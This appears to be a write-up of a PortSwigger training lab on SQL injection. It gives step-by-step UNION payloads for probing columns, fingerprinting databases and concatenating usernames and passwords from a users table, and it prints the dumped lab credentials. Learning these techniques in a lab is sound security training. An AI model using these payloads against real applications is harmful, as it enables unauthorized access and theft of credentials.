

# Lab: SQL injection UNION attack, retrieving multiple values in a single column

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a `UNION` attack to retrieve data from other tables.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform an [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.


# Verify Attack Vulnerability

```sql
'--
```


# Identify Number Of Columns

```sql
'UNION SELECT NULL--
'UNION SELECT NULL,NULL--
'UNION SELECT NULL,NULL,NULL--
```


<aside>
💡 There are two columns

</aside>

# Identify Data Types

```sql
'UNION SELECT '',NULL--
'UNION SELECT NULL,''--
```


<aside>
💡 Second column is a String data type.

</aside>

# Identify Database and Version

## Base Query Payload

```sql
'UNION SELECT NULL, ''--
```

## Oracle

```sql
'UNION SELECT NULL, banner FROM v$version--
'UNION SELECT NULL, version FROM v$instance--
```


## Microsoft

```sql
'UNION SELECT NULL, '' FROM @@version-- 
```


## **PostgreSQL**

```sql
'UNION SELECT NULL, version()--
```


## **MySQL**

```sql
'UNION SELECT NULL, @@version-- 
```


<aside>
💡 The database is PostgreSQL

</aside>

# Create Concatenation Payload

```sql
'UNION SELECT NULL, username || '~' || password FROM users-- 
```


```
carlos~okrj48adw7hxvi7i42ul
wiener~vgiwj0h2cxgu7asmxg5q
administrator~jmw750il87sw0f1la0gt
```

## Login as administrator




# Other Solutions

## Burp Suite

1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the [number of columns that are being returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns) and [which columns contain text data](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text). Verify that the query is returning two columns, only one of which contain text, using a payload like the following in the `category` parameter: `'+UNION+SELECT+NULL,'abc'--`
3. Use the following payload to retrieve the contents of the `users` table: `'+UNION+SELECT+NULL,username||'~'||password+FROM+users--`
4. Verify that the application's response contains usernames and passwords.

## Community Solutions

Rana Khalil

[SQL Injection - Lab #6 SQL injection UNION attack, retrieving multiple values in a single column](https://youtu.be/yRVYoqR9vrI)

Michael Sommer
